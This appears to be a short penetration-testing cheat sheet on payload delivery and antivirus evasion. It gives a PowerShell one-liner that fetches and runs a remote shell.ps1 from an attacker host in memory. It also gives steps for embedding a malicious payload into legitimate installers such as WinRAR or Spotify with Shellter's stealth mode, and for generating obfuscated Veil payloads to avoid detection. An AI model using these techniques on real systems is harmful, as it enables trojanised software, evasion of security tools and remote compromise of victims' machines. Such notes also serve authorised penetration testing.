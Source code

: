 ## Manual
###### PowerShell Script from Memory (Run Remote Script)
`echo iex(new-object net.webclient).DownloadString('http://<attack-ip>:<port>/shell.ps1') | powershell -noprofile -`

---
## Automated
#### shellter
Embed a malicious payload within a legitimate 32bit executable.
###### Install shellter
`sudo apt install shellter`
`sudo apt install wine`
`dpkg --add-architecture i386 && apt-get update && apt-get install wine32`
###### Identify Target Executable (32bit only)
https://www.win-rar.com/download.html
https://www.spotify.com/us/download/windows/
###### Follow the Guided Instructions
- Set Automatic Mode
- Provide Full Path of Target File
- Enable Stealth Mode
- Select payload type
- Provide LHOST and LPORT details
- [[0.6 File Transfer|Transfer]] the file to the target and await execution

---
#### Veil
Create obfuscated payloads to avoid detection.
###### Install veil
`sudo apt -y install veil`
###### Follow the Guided Instructions
The veil framework has an intuitive interface to navigate. 
- Select Evasion for AV evasion
- List payloads
- Select desired payload (avoid meterpreter, option 11 is good). This does allow for PowerShell obfuscated payloads too
- Provide LHOST and LPORT details
- Generate